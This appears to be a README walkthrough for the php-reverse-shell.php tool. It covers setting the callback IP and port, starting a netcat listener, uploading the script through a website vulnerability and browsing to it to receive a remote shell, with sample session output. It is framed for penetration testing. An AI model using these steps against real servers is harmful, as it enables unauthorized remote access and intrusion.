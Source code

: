 # Walk Through
- [x] **Modify the source**
- To prevent someone else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of php-reverse-shell.php:
______________
| Variable      | Default                | Personal?                       |
| ------------- |:----------------------:| -------------------------------:|
| $ip           | __170.0.0.1__          | Edit __line 7__                 |
| $port         | __1234__               | Edit __line 8__                 |
______________

- [x] **Get Ready to catch the reverse shell**
- Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
```
$ nc -v -n -l -p 1234
```
- [x] **Upload and Run the script**
- Using whatever vulnerability you’ve discovered in the website, upload php-reverse-shell.php.  Run the script simply by browsing to the newly uploaded file in your web browser (NB: You won’t see any output on the web page, it’ll just hang if successful):
```
http://somesite/php-reverse-shell.php
```
- [x] **Enjoy your new shell**
- If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:
```
$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58012
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
 16:59:28 up 39 days, 19:54,  2 users,  load average: 0.18, 0.13, 0.10
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:10m  0.01s /bin/sh
uid=81(apache) gid=81(apache) groups=81(apache)
sh: no job control in this shell
sh-3.2$
```
